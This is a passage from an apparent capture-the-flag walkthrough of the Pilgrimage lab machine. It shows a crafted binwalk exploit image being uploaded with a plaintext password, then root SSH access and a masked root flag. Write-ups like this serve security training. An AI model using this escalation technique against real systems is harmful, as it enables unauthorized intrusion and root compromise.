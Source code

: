 The output is a file named `binwalk_exploit.png`. I’ll upload it into the `shrunk` directory:

```
oxdf@hacky$ sshpass -p abigchonkyboi123 scp binwalk_exploit.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/

```

From there, I’m able to SSH in as root:

```
oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@pilgrimage.htb
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@pilgrimage:~#

```

And get the root flag:

```
root@pilgrimage:~# cat root.txt
6108bf44************************

```





